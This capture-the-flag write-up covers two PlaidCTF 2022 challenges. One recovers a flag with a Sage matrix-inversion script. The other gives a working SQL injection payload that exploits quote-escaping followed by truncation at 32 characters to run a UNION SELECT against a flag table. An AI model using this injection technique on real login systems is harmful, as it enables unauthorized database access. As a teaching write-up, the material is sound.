 # A solution for Amongst Ourselves

This is a collection of challenges in [PlaidCTF2022](https://ctftime.org/event/1542).

## Shipmate

### Process Sample

According the code, the first and the second sample ID(if the panel is too quickly to be closed, see it in the Devtools) are converted to matrix $A,B$. And the flag are converted to matrix $C$. And $B=CA$ hold.

So, after get sample IDs by the first and the second player, and run the below code, I got the flag.

```python3
first_id = 'UXJGAIEVIK_EFWPQXWHWBNGMJ'
second_id = 'XUAHFBZMCOQLUTMSLKJRDVW!O'
alphabet = "ABCDEFGHIJKLMNOPQRSTUVWXYZ_!?"

def str2mat(s):
    return matrix(Zmod(29), 5, 5, [alphabet.index(c) for c in s]).T

def mat2str(m):
    return ''.join(alphabet[m[i,j]] for i in range(5) for j in range(5))

A = str2mat(first_id)
B = str2mat(second_id)
print(mat2str(B*~A))
# TEST_POSITIVE!_FR_GRAVEL?
```

### Provide Credentials

```javascript
		username = username.replace("'", "''");
		password = password.replace("'", "''");

		// Max length of username and password is 32
		username = username.substring(0, 32);
		password = password.substring(0, 32);

		pool.query<{ id: number; username: string }>(
			`SELECT id, username FROM users WHERE username = '${username}' AND password = '${password}'`
		)
```

This challenge is a simple SQL inject test.

Notice that the `''` at the index 31 and 32 will be cut into `'`, so we can use `1111111111111111111111111111111'` as username and `union select 1,* from flag;--` as password, which result in `SELECT id, username FROM users WHERE username = '1111111111111111111111111111111'' AND password = 'union select 1,* from flag;--'`, to get the flag.
